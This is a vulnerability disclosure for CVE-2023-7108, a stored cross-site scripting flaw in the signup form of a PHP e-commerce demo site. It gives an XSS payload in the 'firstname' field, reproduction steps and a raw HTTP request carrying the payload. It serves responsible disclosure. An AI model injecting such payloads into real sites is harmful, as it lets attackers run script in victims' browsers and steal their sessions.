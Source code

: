 # CVE-2023-7108_E-Commerce Website - Stored Cross-site Scripting
+ **Exploit Title:** CVE-2023-7108_E-Commerce Website - Stored Cross-site Scripting
+ **Date:** 2023-24-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/e-commerce-website-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/E-COMMERCE_WEBSITE_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7108

## References: 
+ **CVE-2023-7108:** https://vuldb.com/?id.249003
+ https://www.cve.org/CVERecord?id=CVE-2023-7108

## Description:
E-Commerce Website 1.0 allows Stored Cross-site Scripting via parameter 'firstname' in "Electricks/Electricks-shop/pages/user_signup.php". E-Commerce Website is vulnerable to a cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data. An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the user registration form: "http://localhost/Electricks/Electricks-shop/pages/user_signup.php"
+ Fill First name with this payload: `<video/src=x onerror=alert(document.domain)>`
+ Fill the the all form and click Create Account button.
+ Then navigate to user login page: "http://localhost/Electricks/Electricks-shop/pages/user_login_page.php" and login.
+ Then XSS will be triggered permanently.
+ Refresh and alert will continue to pop-up.
+ Example request for 'firstname' parameter:
```
POST /Electricks/Electricks-shop/pages/user_signup.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 202
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/Electricks/Electricks-shop/pages/user_signup.php
Cookie: PHPSESSID=8imurtv40ut9ah7s8bk6auen4i
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

firstname=%3Cvideo%2Fsrc%3Dx+onerror%3Dalert%28document.domain%29%3E&middlename=test3&lastname=test3&email=test3&address=test3&contact=test3&username=test3&password=test&submit=
```
+ Go to user login page: "http://localhost/Electricks/Electricks-shop/pages/user_login_page.php" and login.
![3-1](https://github.com/h4md153v63n/CVEs/assets/5091265/931dcbe2-fc38-44ad-b314-a080f8a60cd0)
![3-2](https://github.com/h4md153v63n/CVEs/assets/5091265/753e20c4-eef8-4655-bc3f-869370c08d24)
